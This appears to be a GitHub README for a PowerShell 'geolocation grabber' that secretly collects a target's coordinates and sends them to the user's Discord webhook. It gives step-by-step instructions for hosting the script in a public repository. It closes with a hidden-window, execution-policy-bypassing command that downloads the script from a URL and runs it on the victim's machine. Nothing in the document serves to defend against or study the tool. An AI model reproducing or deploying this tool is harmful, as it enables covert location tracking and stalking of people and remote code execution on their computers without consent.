 # geoloaction-grabber
sends the coordinates of the target to your discord server via webhook
<p><p/>
<p><p/>
<p>download geolocationgraber.ps1.txt<p/>
<p>edit and replace WEBHOOK_HERE with your webhook url<p/>
<p>save <p/>
<p>crate a new repo in public <p/>
<p>add file <p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image1?raw=true" width="350" title="hover text"> <p/>
<p>put geolocationgraber.ps1.txt in and commit changes <p/>
<p>click geolocationgraber.ps1.txt<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image2" width="350" title="hover text"> <p/>
<p>click the pen<p/>
<p>del .txt<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image3" width="350" title="hover text"> <p/>
<p>commit changes <p/>
<p>you should be left with geolocationgraber.ps1<p/>
<p>click it<p/>
<p> <img src="github.com/quazi00/geoloaction-grabber/tree/main/images/image4" width="350" title="hover text"> <p/>
<p>click raw<p/>
<p>copy that link <p/>
<p><p/>
<p>paste that link in the line below where it says paste here <p/>
<p><p/>
  ```powershell -w h -NoP -NonI -Exec Bypass iwr PASTE HERE | iex```  
